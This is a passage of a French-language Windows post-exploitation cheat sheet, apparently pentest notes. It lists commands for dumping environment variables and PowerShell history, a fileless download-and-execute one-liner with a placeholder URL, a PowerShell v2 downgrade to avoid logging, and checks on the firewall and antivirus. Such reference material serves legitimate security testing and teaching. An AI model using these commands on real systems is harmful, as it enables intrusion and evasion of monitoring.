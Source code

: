 ```cmd
Get-ChildItem Env: | ft Key,Value
```

## Afficher l'historique de commandes PowerShell

```
Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
```

## Charger script en mémoire #Fileless

```
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"
```


## Downgrade version powershell (pas de logs dans event-viewr)


```powershell-session
powershell.exe -version 2
```

# 3. Identifier les contrôles de sécurité


## Check du firewall

```powershell-session
netsh advfirewall show allprofiles
```

## Check si Defender tourne (cmd)

```cmd-session
sc query windefend
```

## Check de la conf de Defender (powershell)

```powershell-session
Get-MpComputerStatus
```

## Check si AV Tiers installé (powershell)

```
Get-CimInstance -Namespace root/SecurityCenter2 -Classname AntiVirusProduct
```

